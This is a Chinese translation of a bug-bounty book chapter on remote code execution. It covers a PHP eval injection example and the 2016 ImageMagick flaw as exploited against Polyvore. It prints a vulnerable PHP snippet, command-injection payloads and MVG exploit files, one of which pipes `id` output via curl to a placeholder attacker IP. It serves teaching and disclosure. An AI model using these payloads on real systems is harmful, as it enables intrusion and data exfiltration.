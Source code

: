 # 十五、代码执行

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

远程代码执行是指注入由漏洞应用解释和执行的代码。这通常由用户提交输入，应用使用它而没有任何类型的处理或验证而导致。

看一下这行代码：

```php
$var = $_GET['page']; 
eval($var);
```

这里，漏洞应用可能使用 URL` index.php?page=1`，但是，如果用于输入了`index.php?page=1;phpinfo() `，应用就会执行`phpinfo`函数，并返回其内容。

与之类似，远程代码执行有时用于指代命令注入，OWASP 区分了这两点。使用命令驻入，根据 OWASP，漏洞应用在主机操作系统上执行任何命令。同样，这也由不合理处理和验证用户输入导致，这会导致用户输入传递给操作系统的命令。

例如 PHP 中，这可能表现为用户输入传递给`system`函数。

## 示例

### 1\. Polyvore ImageMagick

ImageMagick 是个软件包，通常用于处理图像，例如剪裁、缩放等等。 PHP 的 imagick、Ruby 的 rmagick 以及 paperclip，以及 NodeJs 的 imagemagick 都利用了它。在 2016 年 4 月，该库中发现了多个漏洞，其中可利用的漏洞之一就是执行远程代码，这就是我关注的。

简单来说，ImageMagick 并没有合理地传给他的过滤文件名称，并且最终用于执行`system`方法调用。因此，攻击者利益传入命令来执行，就像`https://example.com”|ls“-la`，它会被执行。一个来自 ImageMagick 的例子是：

```
convert 'https://example.com"|ls "-la' out.png
```

现在，有趣的是，ImageMagick 为 MVG（Magick Vectire Graphics）文件定义了自己的语法。所以，攻击者能够创建文件`exploit.mvg`，带有下列代码：

```
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|ls "-la)' 
pop graphic-context
```

这之后会传给该库，并且如果站点存在漏洞，代码会执行并列出目录中的文件。

了解其背景之后，Ben Sadeghipour 测试了  Yahoo acquisition 站点以及 Polyvore 是否存在漏洞。就像他博文中所述，Ben 首先在它所控制的本地机器上测试了该漏洞，来确认`mvg`文件是否正常工作。这是他使用的代码：

```
push graphic-context 
viewbox 0 0 640 480 
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://SOMEIPADDRESS:80
80/ -d @- > /dev/null`' 
pop graphic-context
```

这里你可以看到，它使用了 CURL 库来调用 SOMEIPADDRESS（将其修改为你服务器的地址）。如果成功，你就会得到像这样的响应：

![](img/15-1-1.jpg)

Ben Sadeghipour  ImageMagick 测试的服务器响应

下面 Ben 浏览了 Polyvore，将文件上传为它的资料头像，并在它的服务器上收到了这个响应：

![](img/15-1-2.jpg)

Ben Sadeghipour Polyvore ImageMagick 响应

> 重要结论

> 阅读是成功渗透的重要组成部分，这包括阅读软件漏洞和常见漏洞，以及披露（CVE 标识符）。当你碰到没有安装安全更新的站点时，了解之前的漏洞能够帮助你。这里， Yahoo 已经修补了服务器，但是没有正确完成（我找不到关于这是什么意思的解释）。一次你，了解 ImageMagick 漏洞让 Ben 特地以这个软件为目标，并得到了 $2000 的奖金。

## 总结

远程代码执行，就像其他漏洞一样，通常是用户输入没有合理验证和处理的结果。这里提供的例子中，ImageMagick 没有合理转义可能为恶意的内容。它和 Ben 对该漏洞的知识一起，让他能够特地寻找和测试一些漏洞站点。对于搜索这些类型的漏洞来说，没有简单的答案。要注意发布的 CVE，并且留意站点所使用的软件，它们可能会过时，也可能存在漏洞。
